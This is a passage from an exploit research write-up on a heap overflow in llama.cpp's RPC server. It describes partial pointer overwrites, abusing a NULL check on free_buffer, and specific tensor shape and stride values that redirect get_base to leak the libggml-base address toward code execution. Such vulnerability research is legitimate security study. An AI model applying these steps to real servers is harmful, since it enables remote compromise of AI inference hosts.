


## Partial-write: partial-write in real life?


In classic `glibc` CTF exploitation, there's a technique or a little trick that people know about but are getting less practical nowadays called partial writing. By "partial writing," it means that we are writing parts (sounds like a cliche but needed to reinforce) of the pointers.


For readers who are not familiar with partial-writing, in most systems, pointers are stored as multi-byte values (e.g., 8 bytes on a 64-bit system). These bytes can be broken down into smaller sections, such as the lower 2 bytes (`LSB`), the middle bytes, or the higher-order bytes (`MSB`), and how they are stored is often counter-intuitive in little-endian architecture, where the `MSB` is stored at the larger memory address, while the `LSB` is at the lower ones, what this means is that a pointer of `0xdeadbeef`, for example, looks like `ef be ad de` in memory.


Binary often requires libraries to run, for the example, the standard-c-library `libc` or other self-compiled library, although *you can statically compile a binary (embedding the external method / types inside of the binary), but this will result a considerably large ELF. Instead, during runtime, the elf will *statically link the library to the elf, and the library will map be mapped into memory segmentation of the program (you can check for the memory mapping using `vmmap` in `gdb`), and be referenced using ( `offset` / *'real-address' in library + `mapping_base` ). However, thanks to `ASLR`, these base addresses are loaded/mapped randomly, in case the elf did not encapsulate a method for, e.g, executing command and we are seeking RCEs, the only way for us to call for `system` is to first, leaked the dynamic-linked library's (*usually the `libc.so.6`) mapped base-address in the elf, then using the fixed offset in the library to calculate the actual address of the method.


Now, here's where partial-writing becomes particularly interesting. Thanks to the combination of the memory-aligning mechanism in address mapping of dynamic-linked libraries, and little-endian architecture, it enabled an interest vector that allows us to access *certain methods in the dynamic-linked library without knowing any mapped base address: **partial overflowing the pointer - without corrupting the mapped base, since all base address aligns at `0x1000`, the last-two byte of a dynamic-linked pointer will not be reflected by the loaded aslr-ed base, but straightforwardly represented by the dynamic-linked offset, thus with the power that little-endian gave us, which we are able to modify a pointer at the `LSB` part, allowed us to **manipulate the pointer to arbitrary-offset of the same base! Even though that we cannot write one-and-half bytes to a pointer, however, it takes maximum value of `0xf = 16` guesses to guarantee validate nibble of the mapped base.


### Paradox of Partial-write? Again?





In the case of our exploitation, all `buffer->iface` pointers belongs to the `libggml-base` dynamic-linked library, sharing the same base (you can observe that all pointers start with `0x7ffff7e7....`) theoretically, we can manipulate them into arbitrary method in compiled in `libggml-base.so`. However, taking another closer look, you will find that **this is actually a extremely difficult exploitation path since:


-

Controlling the `ggml_nbytes` is extremely-hard / and time-consuming, because that you can't "calculate" the size. Instead, you will need to change the dimension specification of the tensor, leaving around 40 different combinations.


-

In the best case, I manage to partially overflow the last two bits of the first member - `free_buffer` - it's extremely hard to locate gadgets/function within the range of `0xffff` (`0x17000 < addr < 0x26fff` translated into offsets within the `ggmlbase` library)


-

The `free_buffer` is called on a harsh condition, where only the `buffer` is being parsed into the function, eliminating the chances of using `ggml_backend_cpu_buffer_get/set_tensor` to manage arbitrary-write / arbitrary-read.





The image above showcased how many methods/gadgets exist in the `ggmlbase` library, most of `GOTs` you see are outside of the controllable range `0x17000 < addr < 0x26fff`, we can't try to partial overwrite these addresses since controlling more than `0xff` space required too much resources (Since `vmmap` base address aligns with `0xfffffffffffffff000`, the last three nibble is fixed despite the base change, we can still predict during 1-digit difference in multi-thread since we will only need to guess `0xf` max).


At first few hours of researching on partial-write, this really *seemed like a dead-end, on hand, only `iface->free_buffer` is partial-write-able since manipulating with other members might corrupt previous members as we always mentioned (for instance, trying to partially write `iface->set_tensor` pointer might corrupt `iface->get_tensor` pointer, since it came before `iface->set_tensor` as the structure defined). On the other hand, `free_buffer` is called right after the `cpy_tensor` operation is triggered (meaning that `iface->free_buffer` is called immediately after the overflow), while we have a sort of control over the `rdi` register, the first parameter of `iface->free_buffer`, we still have no-way of leaking any pointers, since even if we manage to leak a pointer via manipulating `free_buffer`, we can't receive the leak since `rpc_free_buffer` doesn't respond the return via the `RPC` connection.


This is such a tricky scenario, to sum up, all these limitations made `iface->free_buffer` not-leak-exploitable, while seemed impossible to exploit other `buffer->iface` member. In the meantime, without leaking any pointers, the Paradox-Of-Overflow limits us from doing any further exploitations by forging `buffer->context`.


But sometimes, changing the perspective, or simply taking another deeper look, at something really small and tiny, may solve the problem


## Solving the Paradox: What else can we do when classic `ptmalloc` doesn't work?


If you re-examination the obstacles, you will find that actually, every problem is related to `iface->free_buffer`, whether it's structural properties or its influence over execution.


-

`iface->free_buffer` is the first element/member in the `buffer->iface` structure.


- We can't try to exploit partial-write on any other members of `buffer->iface`, since it will corrupt `iface->free_buffer`.


-

`iface->free_buffer` is called implicitly right after the overflow.


-

From `1.1`, corrupting `iface->free_buffer` will crash the program.


-

Since it's called implicitly, we can't leak anything since it does not return anything into the data flow (`RPC-Connection`)


This is really the key of exploitation here, as we introduced before in case if the `iface->free_buffer` is not called exactly after the partial-writing, we could have partial-write the `iface->get_base` pointer for something cool. (Since `get_base` can be called remotely with manipulatable argument, and retrievable data).


In the meantime, I spent time researching possible `ptmalloc` exploitation vectors, (e.g. `large bin attacks` ,`tcache bin attacks`), **all we need is to leak a `libc` / `ggml-base` base address, we don't even need to achieve write-what-wheres via in order for us to furthermore exploit.


Unfortunately, `llama.cpp`'s heap management seemed un-exploitable, special features/mechanisms of the system made the classic `ptmalloc` exploitation applicable. Indeed, we can construct overlapping chunks and manage to achieve `uaf`s, the `buffers` global array and limitation during/after `deserialize_tensor` will stop us from operating on not-`rpc`-applied chunks, In the meantime, the weird chunk assigning mechanism stops us from going anywhere beyond the `tcache bin list` - you can't really fill-up a single `tcache bin` size file to try to apply for large bins (then try to leak the pointers of them)


One other weird idea that popped out in my head it trying to out-of-bounds read via the `cpy_tensor` sink that we exploited previously *(I am sure this is what people tend to think of after struggling for a period of time on how to leak). However, remember the reason that we are achieving possible overflow is the wrongful calculation of the `src Tensor` *(`ggml_nbytes(src)`), and the `ggml_nbytes()` is previously implemented with `get_base()`, with previously introduced mitigations/patch to present boundary checks on current `Tensors`. Which sum-up, indeed allows us to overflow the `dst Tensor`; However, we can't really read extra from current `Tensor`.


This is really *a pain in the butt. If the the classic `ptmalloc`, our last resort, have no room to exploit, it seems *impossible to exploit and escalate this heap-overflow to anything else than a `DoS`. Consider the time spent already on this exploit,


After another extremely-tiring few rounds of looking back into `llama.cpp`'s source codes (taking lots of time and thought), breaking and rethinking the entire process over and over again. ***Unexpectedly and lucky, I was able to find a part that we ignored, where the final solution is initiated, by solving simply one minor part of the paradox, the entire paradox unwrapped itself, and achieving `RCE`.


### NullPointerNoException


```
<code class="lang-c hljs language-c" data-highlighted="yes">void ggml_backend_buffer_free(ggml_backend_buffer_t buffer) {
    if (buffer == NULL) {
        return;
    }

    if (buffer->iface.free_buffer != NULL) {
        buffer->iface.free_buffer(buffer);
    }
    delete buffer;
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


This is a code segment snipped from the `ggml_backend_buffer_free` method, can be called via `rpc` endpoint via `rpc_server::free_buffer->ggml_backend_buffer_free`; Additionally called during `rpc_server::~rpc_server`, `for (auto buffer : buffers) -> ggml_backend_buffer_free`, called after every `RPC` connection as the *auto-freeing behaviour for every left over `buffer` (Also the reason why the ``iface.free`_buffer` will be right triggered after the overflow, resulting in our *Paradox-of-Overflow).


An interesting part, among this very small code segment, before `buffer->```iface.free`_buffer(buffer);` is called, the `buffer->```iface.free`_buffer` is actually checked if is `null` *(if the pointer is null) for some reason. This check doesn't really make since the `buffer` structure is allocated by the `rpc` server. One possible explanation is the `ggml_backend_cpu_buffer_from_ptr_i` definition at `ggml/src/ggml-backend.cpp:1911`, where the `.free_buffer` is set to `NULL`. According to the comment, *(`// ptr is not owned by the buffer, so it does not need to be freed`) where the `buffer` is initialized from other `buffer` structure (when called/initialized via `ggml_backend_cpu_buffer_from_ptr`), thus not require to be freed. This feature didn't raised a lot of attention of at the beginning, as what it seems like, this enabled us is nothing more but avoiding crashing right after the overflow. But what this applied with the partial writing technique with some extra boundary calculation techniques, is fun and explorable.


You might ask why this is interesting, fun, and explorable, this will require us to take a look back into the *paradox of partial writing, what it basically is, summarizing is:


Changing `free_buffer` will crash the program since we don't know any address.


-

even if we partial overwrite `free_buffer`, which indeed avoid crash:


-

meaningless other than avoiding crashing, we can't receive any return from the redirected execution flow to break the *paradox-of-overflow


-

we can overwrite anything beyond `free_buffer`


What the *paradox of partial-writing represents is partial-writing is useless. However, with the help of the new `buffer->```iface.free`_buffer != NULL` check this time, **what this indirectly means to us is that:


-

**The ``iface.free`_buffer` can be set to a known address (`NULL`) to avoid crashing;


-

We can modify **members that's later to the ``iface.free`_buffer` member **since writing process of ``iface.free`_buffer` will no longer crash the execution flow.


What this furthermore mean is that, **this simple, extra examination provided to us the solution / break of the *paradox-of-overwriting! Despite the fact that we still hold no `libc` / `ggml-base` base addresses, we are able to partial write other `buffer->iface` member that have entirely controllable first-parameter register and receivable return, essential factors that make leaking possible, theoretically.


Nevertheless, **this doesn't mean that we have an easy exploitation router right after this, we still need to face the problem of finding the proper partial-write target that located around the `0xfff` range of the partial-overwritten method, within the linked `ggml-base` library, in which the method allows to leak an entire dynamic-linked loaded pointer address, while we only control over the first-parameter register *(this is because only way to receive receivable return is via the `RPC` server endpoints to access `buffer->iface` method, while these endpoints only deserialize `buffer` as the only argument), lastly extreme precise `ne[]` / `nb[]` size calculation to return `ggml_nbytes()` the right offset/position in order partial-write, which is not easy exploitation at all.

>


Little head-ups here, even we solve the *paradox-of-partial-writing, we still can't solve the *paradox-of-overflow by overwriting the `buffer->context` pointer, since it will corrupt `get_tensor` / `set_tensor` method pointers that goes before them, making it invalid/null during the exploitation on the `buffer->context` since it reference the methods from the same `buffer` structure.


However, nothing is *impossible; let's see how we can solve the further exploitation piece by piece, layer by layer, and then beautifully construct a ***leak.


## Constructing Leak: Piece by Piece, Layer by Layer


The objective right now is to manage to construct a leak, thanks to previous research, the partial-writing technique seem to be the right way to go, additionally with to the *NullPointerNoException exploitation, we are able to target `buffer->iface->get_base` as our target of partial overwrite.

>


The reason why `iface->get_base` gave us more space to exploit, is because `iface->get_base` can be called via `case RPC_CMD_BUFFER_GET_BASE -> server.buffer_get_base -> ggml_backend_buffer_get_base -> buffer->iface.get_base(buffer);` , while the return value of `ggml_backend_buffer_get_base` can be returned as `response.base_ptr = reinterpret_cast<uint64_t>(base);` directly via the `RPC` endpoint, directly leak-able.


However, finding the right manipulation address for `buffer->iface->get_base`, as we state previously, we will still have to find the right gadget with in the `0xfff` range, which allows us to leak in case only `rdi` register is manipulatable, lastly precise control the `ggml_nbtyes()` calculation *(I really like to repeat things).


### Leak No.1: Right range, Right leak


>


Note that even though targeting `memset_tensor` / `set_tensor` / `get_tensor` as target of partial writing is possible. (I did spend a while looking for these that are practical) However, their argument is less controllable (as there is internal processing of the parameters) and for the most important part - don't really return anything, thus considered not the best work-ons on the leaking process





Looking into `gdb`, we can see that the pointer for `ggml_backend_cpu_buffer_free_buffer` (`buffer->iface->get_base`) is located in `0x7ffff7e7b19c`, `ggml/src/libggml-base.so` DLL with offset `0x1319c`. As we previously introduced the limitation of partial-writing, our maximum accepted gadget offset with be with in the range of `0x13fff`.


As the call-chain of the invokable `get_base` via `RPC` endpoint ( following `RPC_CMD_BUFFER_GET_BASE -> server.buffer_get_base -> ggml_backend_buffer_get_base -> buffer->iface.get_base(buffer); -> ggml_backend_cpu_buffer_get_base`) With only the `request.remote_ptr` (`ggml/src/ggml-rpc/ggml-rpc.cpp:804` can be passed into the `ggml_backend_buffer_get_base` function as `rdi`), we will have to find a method in `libggml-base.so`, near the offset `0x1319c`, that takes a address as a parameter, while returns a proper DLL-loaded address.


While regarding the passed-address must be a valid `buffer` address *(`buffer` is examined as `if (buffers.find(buffer) == buffers.end()) {`, `ggml/src/ggml-rpc/ggml-rpc.cpp:805`, we can't try to pass in arbitrary heap address that we know via `alloc_buffer`) and there's less of method that functions to return an address of a pointer, I started to look for `getters` in `ggml/src/ggml-backend.cpp`, right about 1700 lines near the original definition of `ggml_backend_cpu_buffer_get_base` (this does take me more than a while), I find this interesting `getter` - `ggml_backend_buffer_type_t ggml_backend_buffer_get_type(ggml_backend_buffer_t buffer)`:

```
<code class="lang-c hljs language-c" data-highlighted="yes">ggml_backend_buffer_type_t ggml_backend_buffer_get_type(ggml_backend_buffer_t buffer) {
    return buffer->buft;
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


In the first few rounds of researching on `ggml/src/ggml-backend.cpp`, chances of the `buffer->buft` being a informational leak was ignored since I really looks like the `buffer->buft` is just pointing to a mangement-sort-of chunk on the heap. Nevertheless, it was further noticed that `buffer->buft` is actually a `ggml_backend_buffer_type` type! (`ggml_backend_buffer_type_t->ggml_backend_buffer_type`), pointing to the `ggml_backend_cpu_buffer_type::ggml_backend_cpu_buffer_type` in `ggml/src/ggml-backend.cpp` offset `+0xb20` (`0x4ab20`)! A valid DDL-loaded address! *(The name of this method is indeed confusing enough, as it says returns the type of the `ggml_backend_buffer`, it actually returns a reference to the `type` structure)








It seems like despite the fact that `ggml_backend_buffer_get_type` and `ggml_backend_cpu_buffer_get_base` is 1700 lines away from each other, they are still loaded at a pretty adjacent address with a difference of `0x7c1` *(Note that we are not calculating the difference of `ggml_backend_buffer_get_base` and `ggml_backend_buffer_get_type`, since actually `ggml_backend_cpu_buffer_get_base` is bind on the targeted `iface->get_buffer pointer)`. `0x7c1` is a really proper offset, theoretically the best target during partial-writing because the DDL is aligned as `0xfff` as we mentioned previously. However, re-mentioning from the *Paradox-of-Partial-Writing part we mentioned before, the fact is that we cannot just write a half-byte (not with the overflow we have), we will still have to guess a half-byte however we are promised to guess the right one with maximum of `0xf` (16) attempts, which is pretty nice for pwn exploitation, since most canary brute-forcing or heap spraying requires much more attempts!


#### `ggml_nbtyes`: `ne[]` + `nb[]` = ?


Now we have a victim /estination, and a target /anipulation for partial-writing, the only requirement for the leakage is finding the right combination for `ne[]` / `nb[]` of `Tensor` to overflow the right place at the right time, in order to partial write these essential bits of `buffer->iface->free_buffer`.





From calculating the distance between `dst->data` (`memcpy` destination) to `(dst->buffer)+8(size_t)+2` (we used minus since heap grows upward), the offset required for us to overwrite the last two bytes (`LSB`) of the `iface->get_base` pointer is `282`, `0x11a`


As we introduced a few parts of the implementation of `ggml_nbytes()` in the *Prerequisites part of the research, we didn't really delve deep into the details of the size calculation it, for partial writing, we must control very carefully the overflown bytes *(God I really like to repeat things!), as a reminder, this is how the of `ggml_nbytes()` is calculated:

```
<code class="lang-c hljs language-c" data-highlighted="yes">size_t ggml_nbytes(const struct ggml_tensor * tensor) {
    size_t nbytes;
    const size_t blck_size = ggml_blck_size(tensor->type);
    if (blck_size == 1) {
        nbytes = ggml_type_size(tensor->type);
        // #define GGML_MAX_DIMS 4
        for (int i = 0; i < GGML_MAX_DIMS; ++i) {
            nbytes += (tensor->ne[i] - 1)*tensor->nb[i];
        }
    }
    else {
        nbytes = tensor->ne[0]*tensor->nb[0]/blck_size;
        for (int i = 1; i < GGML_MAX_DIMS; ++i) {
            nbytes += (tensor->ne[i] - 1)*tensor->nb[i];
        }
    }
    return nbytes;
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


As the `tensor->ne[i]` *(shape) and `tensor->nb[i]` *(stride) arrays are full controllable, `blck_size` being partially controllable (determined by own property, the returned `nbytes` is basically calculated by `(tensor->ne[0] - 1)*tensor->nb[0]/blck_size+(tensor->ne[i] - 1)*tensor->nb[i]` (optimized when `blck_size=1`, possibly for optimization behavior when dealing with a great amount of tensors).


This calculation is sometimes a *pain-in-the-butt when lots of adjustment happens in the `buffer->context` / `buffer` structure, thus we created these tools -> ``Protosec-Research/ggml-nbytes It firstly creates a rainbow table that maps out the `shape` , `strides` and `type_traits[type].blck_size;` with the corresponded `nbytes`, *(This is a relatively small-calculation required task, generating a `254 KB` table required less than few seconds). Furthermore, with the generated rainbow table to can directly look up proper `shape / dimensions`/ `strides` with specified `nbytes`


Since we have a `buffer->type` of `2`, `ggml_blck_size(tensor->type)` of `0x20`, we found the `ggml_nbytes` array parameter of `ne[] = {32*3,32*3,32*3,63}`, `nb[] = {10,1,1,1}`. This gave us the size of `((32*3)*10//32)+((32*3-1)*1)+((32*3-1)*1)+(63-1*1)` -> `30+95+95+62=282`, exactly the offset we are looking for, for now, we just need to construct `Tensor src` using the parameter, while using `set_tensor` to the `dst->data` chunk with specific data. *(Remember not to corrupt the header information for chunk `dst->buffer`, in this case we need set offset `248` to the header structure, as we probably mentioned before)





We manipulated `iface->get_base`'s lower-two bytes to our payload *(`b'aaaa'`s) without **interfering any rest parts of the pointer. Now we just need to manipulate this part of the pointer to `ggml_backend_buffer_get_type`, then trigger the `buffer_get_base` original call chain (`RPC_CMD_BUFFER_GET_BASE -> server.buffer_get_base -> ggml_backend_buffer_get_base -> buffer->iface.buffer_get_base(buffer); -> ggml_backend_cpu_buffer_get_base`) thought `RPC` endpoint, the return value of manipulated `ggml_backend_buffer_get_type` will be returning as a part of the `response` variable in `ggml-rpc.cpp`, and we will be able to retrieve it through the socket `RPC` connections.





Here we successfully leaked the address of `ggml_backend_buffer_get_type` *(ignoring the miss-alignment), as we mentioned previously, this is a `libggml-base.so` loaded DDL address, by calculating it's fixed offset to the *(we used two variable in the `exp.py`, the `ggml_bae` and `ggml_begin`, this is because `vmmap` and `pwntools`'s `ELF()` interpretation are based in a different base. The `vmmap` offset in `pwndbg` is segmented to three parts), we now have the `libggml-base.so base` address, this allowed us to redirect the execution flow to arbitrary methods loaded in `libggml-base.so`. Furthermore allowed us to:


